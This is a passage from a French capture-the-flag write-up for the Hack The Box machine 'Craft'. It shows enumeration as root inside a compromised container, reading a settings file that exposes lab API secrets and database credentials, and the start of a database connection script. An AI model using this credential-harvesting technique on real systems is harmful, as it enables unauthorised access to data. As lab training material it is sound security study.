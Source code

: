 #### Jail

- On est dans un container :

`/opt/app # hostname`

```
5a3d243127f5
```

`/opt/app # id`

```
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

`/opt/app # help`
```
Built-in commands:
------------------
	. : [ [[ alias bg break cd chdir command continue echo eval exec
	exit export false fg getopts hash help history jobs kill let
	local printf pwd read readonly return set shift source test times
	trap true type ulimit umask unalias unset wait
```

- On découvre un fichier contenant les identifiants de connexion à la BDD

`/opt/app/craft_api # cat settings.py`

```
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'

# Flask-Restplus settings
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
``` 

- On identifie un script permettant la connexion à la BDD : 

`/opt/app # ls -la`

```
total 44
[...]
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
``` 

`/opt/app # cat dbtest.py`

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
```